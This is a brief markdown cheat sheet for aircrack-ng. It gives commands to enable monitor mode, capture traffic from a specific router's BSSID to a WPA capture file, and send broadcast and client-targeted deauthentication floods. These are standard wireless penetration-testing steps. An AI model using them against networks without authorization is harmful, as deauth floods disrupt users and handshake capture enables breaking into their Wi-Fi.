 Aircrack Cheat Sheet
====================

### start monitor

    airmon-ng start wlp1s0

### dump all

    airodump-ng wlp1s0mon

### dump specific to file

    airodump-ng -c 1 --bssid 84:9C:A6:28:62:DA -w HAIR_wpa wlp1s0mon --ignore-negative-one

    -c channel
    --bssid router
    -w filename
    --ignore-negative-one Removes 'fixed channel : -1' message

### deauth broadcast

    aireplay-ng --deauth 100 -a 84:9C:A6:28:62:DA wlp1s0mon --ignore-negative-one

### specific deauth

    aireplay-ng --deauth 100 -a 84:9C:A6:28:62:DA -c AA:BB:CC:DD:EE:FF wlp1s0mon --ignore-negative-one

